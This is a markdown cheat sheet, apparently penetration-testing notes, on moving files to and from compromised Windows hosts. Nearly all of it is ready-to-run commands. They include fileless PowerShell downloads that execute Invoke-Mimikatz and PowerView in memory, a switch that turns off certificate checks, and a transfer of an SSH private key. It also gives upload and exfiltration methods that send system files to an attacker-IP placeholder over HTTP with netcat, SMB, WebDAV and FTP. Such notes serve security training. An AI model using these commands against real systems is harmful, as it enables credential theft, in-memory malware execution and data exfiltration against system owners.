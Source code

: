 # *Windows*
- ### *Download*
	- ##### *PowerShell Base64 Encode & Decode*
		- Encode SSH key using `cat id_rsa | base64 -w 0;echo`.
		- Copy the content and put it into a Windows PowerShell and use some PowerShell functions to decode it using `[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("<base64>"))`.
		- Confirm the file was transferred successfully using `Get-FileHash C:\Users\Public\id_rsa -Algorithm md5`.
		- **NOTE:** CMD has a maximum string length of 8,191 characters, which could make this method not impossible.
	- ##### PowerShell
		- **System.Net.WebClient**
			- Download a file over `HTTP, HTTPS or FTP`.
			- `(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')`
			- Fileless method using `Invoke-Expression` (run from memory).
				- `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')`
				- `(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX`
		- **Invoke-WebRequest**
			- But it is **slower** at downloading files (aliases `iwr, curl, wget`)
			- `Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1`
		- **Common Errors**
			- Internet Explorer first-launch configuration isn't completed, use the option `-UseBasicParsing`.
				- `iwr https://<ip>/PowerView.ps1 -UseBasicParsing | IEX`
			- Certificate isn't trusted
				- Use this command before the download command. `[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}`
	- ##### SMB
		- Create an `SMB` server on our device with [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) and then use `copy, move` or PowerShell `Copy-Item`.
			- `sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test` on the attack device.
				- Mount the `SMB` server with username and password. `net use n: \\<ip>\share /user:test test`
				- `copy n:\file` on the target device. 
			- Without `-user` and `-password`, no need to mount. `copy \\<ip>\share\file`.
	- ##### FTP
		- Configure an `FTP` server on our device with Python module `pyftpdlib`.
			- `sudo pip3 install pyftpdlib`
			- By default, `pyftpdlib` uses port `2121`.
			- Start the server using `sudo python3 -m pyftpdlib --port 21`
		- Using PowerShell
			- `(New-Object Net.WebClient).DownloadFile('ftp://<ip>/file', '<to path>'`
			- In case **Non-Interactive Shell**, create an FTP command file to download a file.
				- `echo open <ip> > ftpcommand.txt`
				- `echo USER anonymous >> ftpcommand.txt`
				- `echo binary >> ftpcommand.txt`
				- `echo GET file.txt >> ftpcommand.txt`
				- `echo bye >> ftpcommand.txt`
				- `ftp -v -n -s:ftpcommand.txt`
- ### *Upload*
	- Used in situations such as password cracking, analysis, exfiltration, etc.
	- ##### PowerShell Base64 Encode & Decode
		- Encode file to Base64 using `[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))` then use `Get-FileHash "C:\Windows\System32\drivers\etc\hosts" -Algorithm MD5 | select Hash` to get the hash to be compared later.
		- Copy the content and paste it into attack host and use `echo "<base64>" | base64 -d > hosts` to save it to a file.
		- Compare the hashes using `md5sum hosts`.
	- ##### PowerShell Web Uploads
		- PowerShell doesn't have a built-in function for upload operations, but `Invoke-WebRequest` or `Invoke-RestMethod` to build an upload function. Also, a web server that accepts uploads, which is not a default option in most common web server utilities, is needed.
		- **Installing a Configured Web Server with Upload**
			- `uploadserver` which is an extended module of the Python `HTTP.server` module which includes a file upload page.
			- Install using `pip3 install uploadserver`.
			- Start the server using `python3 -m uploadserver`, default port is `8080` and path is `/upload`.
		- **PowerShell Script to Upload a File to Python Upload Server**
			- Use the [PSUpload.ps1](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1) PowerShell script which uses `Invoke-RestMethod` to perform the upload operations.
			- The script accepts two parameters `-File` which is the file path, and `-Uri` which is the upload destination.
			- Load script to memory (Fileless Download) using `IEX(New-Object Net.WebClient).DownloadString('https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1')`.
			- Upload the file using `Invoke-FileUpload -Uri http://<attack-ip>:8080/upload -File C:\Windows\System32\drivers\etc\hosts`.
		- **PowerShell Base64 Web Upload**
			- Use `Invoke-WebRequest` or `Invoke-RestMethod` with Netcat.
			- Encode file using `$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))`.
			- Use `Invoke-WebRequest -Uri http://<attack-ip>:8080/ -Method POST -Body $b64` to send a POST request with the file to the attacking machine.
			- Catch the Base64 data using `nc -lvnp 8080`.
			- Decode using `echo <base64> | base64 -d -w 0 > hosts`.
	- ##### SMB Uploads
		- Since companies usually allow outbound traffic using HTTP (TCP/80) and HTTPS (TCP/443) protocols and deny SMB (TCP/445) out of their internal network, SMB can be used over HTTP with `WebDav`.
		- `WebDav` protocol enables a web server to behave like a file server, supporting collaborative content authoring, `WebDav` can also use HTTPS.
		- When SMB is used, it will try to connect using the SMB protocol, if there is no SMB share available, it will try to connect using HTTP.
		- **Configuring WebDav Server**
			- Install necessary modules using `sudo pip3 install wsgidav cheroot`
			- Starting the server using `sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous`.
		- Connect to the share using the `DavWWWRoot` directory which is a special keyword recognized by the Windows Shell, no such folder exists on the WebDav server, `dir \\<attack-ip>\DavWWWRoot`, and to not use the keyword, specify a folder that exists on the server. For example `\<attack-ip>\sharefolder`.
		- Copy the file using `copy C:\Users\john\Desktop\SourceCode.zip \\<attack-ip>\DavWWWRoot\` or `copy C:\Users\john\Desktop\SourceCoce.zip \\<attack-ip>\sharefolder\`.
		- If there are no SMB (TCP/445) restrictions, `impacket-smbserver` the same way we set it up for download operations.
	- ##### FTP Uploads
		- Use PowerShell or the FTP client to complete the operation.
		- **Configuring FTP Server**
			- Install module using `sudo pip3 install pyftpdlib`.
			- Start the server using `sudo python3 -m pyftpdlib --port 21 --write`, `--write` is to allow clients to upload files to our attack host.
		- Use `(New-Object Net.WebClient).UploadFile('ftp://<attack-ip>/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')`.
		- In case **Non-Interactive Shell**, create an FTP command file to download a file.
			- `echo open <ip> > ftpcommand.txt`
			- `echo USER anonymous >> ftpcommand.txt`
			- `echo binary >> ftpcommand.txt`
			- `echo PUT C:\Windows\System32\drivers\etc\hosts >> ftpcommand.txt`
			- `echo bye >> ftpcommand.txt`
			- `ftp -v -n -s:ftpcommand.txt`